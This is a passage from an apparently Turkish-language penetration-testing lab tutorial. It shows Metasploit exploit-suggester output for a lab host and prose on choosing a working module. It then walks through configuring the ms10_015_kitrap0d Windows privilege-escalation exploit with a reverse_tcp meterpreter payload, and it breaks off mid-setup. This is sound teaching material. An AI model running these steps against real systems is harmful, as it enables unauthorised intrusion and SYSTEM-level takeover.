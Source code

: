 ```shell-session
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

Bu sonuçlar önümüzdeyken, test etmek için bunlardan birini kolayca seçebiliriz. Eğer seçtiğimiz sonuç geçerli değilse, bir sonrakine geçebiliriz. Tüm kontroller %100 doğru değildir ve tüm değişkenler aynı değildir. Listede aşağıya inersek, `bypassauc_eventvwr`, IIS kullanıcısının yönetici grubunun bir parçası olmaması nedeniyle başarısız olur, bu varsayılan ve beklenen bir durumdur. İkinci seçenek olan `ms10_015_kitrap0d` işe yarıyor.

#### MSF - Local Privilege Escalation

```shell-session
msf6 exploit(multi/handler) > search kitrap0d

Matching Modules
================

   #  Name                                     Disclosure Date  Rank   Check  Description
   -  ----                                     ---------------  ----   -----  -----------
   0  exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D


msf6 exploit(multi/handler) > use 0
msf6 exploit(windows/local/ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  2                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     1338             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1338

LPORT => 1338


msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
```